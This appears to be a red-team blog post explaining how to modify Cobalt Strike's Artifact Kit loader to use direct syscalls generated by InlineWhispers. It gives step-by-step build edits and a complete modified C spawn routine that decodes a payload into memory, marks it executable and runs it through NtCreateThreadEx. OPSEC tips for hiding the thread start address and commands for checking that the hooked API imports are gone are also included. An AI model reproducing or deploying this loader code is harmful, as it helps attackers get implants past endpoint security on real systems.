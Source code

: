 ```yaml
---
title: Integrating Direct Syscalls in Cobalt Strike's Artifact Kit
date: 2022-06-10 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
#layout: post
description: Using InlineWhispers to implement Direct Syscalls in Cobalt Strike's Artifact Kit
---
```


<p align="center">
     <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/cobaltsyscalls/syscalls.png">
</p>

## Resources

[Using Direct Syscalls from Beacon Object Files and MinGW](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)

[Implementing Syscalls in the Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)

[Using Direct Syscalls in Cobalt Strike's Artifact Kit - YT](https://www.youtube.com/watch?v=mZyMs2PP38w&t=21s&ab_channel=RaphaelMudge)

[InlineWhispers](https://github.com/outflanknl/InlineWhispers)

## Methodology

Find function calls you would like to replace in a function module like `spawn`:
- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`

Add the required functions in `functions.txt` which uses `syscalls.asm` (generated by Syswhispers1) and generates `syscalls-asm.h` to incorporate functions specified: `python3 InlineWhispers.py`
- Copy over `syscalls-asm.h` and `Syscalls.h` to `src-common/`. 
- Replace `Windows.h` in `Syscalls.h` to `windows.h`
- To use the generated `inline-assembly` using the `mingw` compiler, we change the dialect of masm to the *intel syntax* (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)).
	- Edit `build.sh` and the the dialect to the `$options` variable: `export options= -0s -masm=intel`
- Edit `patch.c` as an example template. Split `x64` and `x86` code as they require seperate versions of inline-whispers. Add the `syscalls-asm.h` header to include the functions.
	```c
	#elif _M_X64
	#include "syscalls-asm.h"
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}

	#else
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}
	#endif
	```
	
Setup requirements to replace the functions calls. (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/))
- Start by grabbing the approprate function prototypes and incorporating it in the program.
	```c
	[.............]
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	} [................]
	```
- Add variables as required/stated in the blog.
	```c
	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;

	        [.........]
	```
- Replace `ptr` in the function module to the `base_address` variable defined above to stay in convention with the variables in the blog.

Replace the function calls to their NT equivalents similar to the blog.
- Replace `VirtualAlloc()` with: `NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`
	- Replace `calc_len to length`
- Replace `VirtualProtect()` with: `NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);`
	- Replace `calc_len to length`
	- Replace `oldprotect` to `old`
- Replace `CreateThread` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);`
	- Declare the variable `HANDLE thandle = NULL` 
> **OPSEC**: `NtCreateThreadEx` starts the thread using `base_addr` which has a start address that is not backed by a module on disk.
	- Replace `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);` to make the start address the `run` function and the `base_addr` is passed as an argument. 
- Sample: (Replace `injector.c` and `patch.c` similarly to implement direct syscalls in all artifacts)
	```c
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	}

	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;
	        HANDLE thandle = NULL;

	        /* allocate the memory for our decoded payload */
	        /*base_addr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);*/
	        NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	        int x;
	        for (x = 0; x < length; x++) {
	                char temp = *((char *)buffer + x) ^ key[x % 4];
	                *((char *)base_addr + x) = temp;
	        }

	        /* propagate our key function pointers to our payload */
	        set_key_pointers(base_addr);

	        /* change permissions to allow payload to run */
	        /*VirtualProtect(base_addr, length, PAGE_EXECUTE_READ, &old);*/
	        NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &old);

	        /* spawn a thread with our data */
	        /*CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, base_addr, 0, NULL);*/
	        NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);
	}
	```

Validate the syscalls: `VirtualAlloc()`, `VirtualProtect()` and `CreateThread` shouldn't appear now.
- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`
> **NOTE**: `VirtualProtect` and `VirtualQuery` are called by C runtimes linked into the default mingw 64bit binaries hence these functions still appear in the import table.